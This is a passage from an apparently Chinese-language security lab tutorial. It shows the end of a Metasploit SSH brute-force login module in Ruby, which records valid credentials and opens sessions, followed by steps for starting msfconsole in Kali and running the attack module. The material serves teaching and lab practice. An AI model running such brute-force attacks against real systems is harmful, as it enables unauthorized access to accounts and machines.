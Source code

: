 ```
        credential_core = create_credential(credential_data)
        credential_data[:core] = credential_core
        create_credential_login(credential_data)
        session_setup(result, scanner.ssh_socket)
        :next_user
      
      # 如果目标服务器无法连接，则关闭连接接口，直接退出程序
      when Metasploit::Model::Login::Status::UNABLE_TO_CONNECT
        if datastore['VERBOSE']
          print_brute :level => :verror, :ip => ip, :msg => "Could not connect: #{result.proof}"
        end
        scanner.ssh_socket.close if scanner.ssh_socket && !scanner.ssh_socket.closed?
        invalidate_login(credential_data)
        :abort
      
      # 如果本次尝试的用户名及密码错误则打印相关信息并进行标识
      when Metasploit::Model::Login::Status::INCORRECT
        if datastore['VERBOSE']
          print_brute :level => :verror, :ip => ip, :msg => "Failed: '#{result.credential}'"
        end
        invalidate_login(credential_data)
        scanner.ssh_socket.close if scanner.ssh_socket && !scanner.ssh_socket.closed?
      else
        invalidate_login(credential_data)
        scanner.ssh_socket.close if scanner.ssh_socket && !scanner.ssh_socket.closed?
      end
    end
  end

end
```

### 3.2 启动 msfconsole

在 Kali 中执行下面的命令，进入 msfconsole：

```
# 打开终端 MSF

sudo msfconsole
```

### 3.3 使用的攻击模块

在 msfconsole 中执行后续的命令，攻击的逻辑与我们先前的实验完全一致：

1. `use` 命令使用攻击模块
2. `set` 命令配置参数
3. `show options` 查看所有参数
4. `exploit` 执行攻击

本步骤中，我们使用 `use` 命令选择 3.1 中提到的攻击脚本：
